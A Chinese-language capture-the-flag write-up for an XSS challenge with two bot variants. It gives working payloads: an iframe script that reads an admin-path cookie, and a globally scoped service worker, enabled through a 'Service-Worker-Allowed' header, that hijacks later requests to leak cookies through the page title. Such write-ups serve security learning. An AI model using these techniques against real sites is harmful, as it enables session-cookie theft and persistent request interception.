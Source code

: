 

## 第三新XSS

题目允许我们自己注册形如`/{custom}/*`的返回内容和响应头。两题种xssbot的行为分别是：

1. http协议。访问`/admin/`并在cookie里存下指定`/admin/`path的flag。然后访问我们给出的地址。最终把我们地址的title给出来。
2. https协议。先访问我们给出的地址，再访问`/admin/`并放cookie。最终把admin地址的title给出来。

第一题只需要内嵌一个`/admin/`的iframe并用contentWindow取出来就行。

```html
<marquee>Hello World!</marquee><iframe src="/admin"></iframe>
<script>setTimeout(() => { document.title = document.querySelector('iframe').contentWindow.document.cookie; }, 200); </script>
```

第二题由于访问admin在后，我们为了改变admin页的行为就需要拦截网页请求。这正是这题为什么用https，因为https下才能用service worker。在我们给出的地址中注册一个service worker，用它来拦截所有后续的请求并替换成我们的网页内容即可。但是这里有一个坑，就是service worker的拦截请求功能只能接管自己js所在目录的子目录（即scope），而`/xx`的请求会被跳转到`/xx/`，作为service worker js这种跳转也是不被浏览器接受的。好在，本题我们可以控制响应头，只需要添加`Service-Worker-Allowed: /`就可以之后把service worker注册到全局。

```json
{"Content-Type": "text/javascript", "Service-Worker-Allowed": "/"}
```

```js
self.addEventListener('install', (event) => {
  console.log('install');
  self.skipWaiting();
});
self.addEventListener('activate', (event) => {
  console.log('activate')
  self.clients.claim();
});
self.addEventListener('fetch', function (event) {
    console.log('fetching',event.request);
    event.respondWith(
      new Response("<script>setInterval(()=>{document.title=document.cookie;},100);</script>", {
        headers: {'Content-Type': 'text/html'}
      })
    );
});
```

```html
<marquee>Hello World SW!</marquee>
<script>
        navigator.serviceWorker.register('/swjs222/index.js', { scope: '/' })
          .then(reg => {
            console.log(reg)
          })
</script>
```


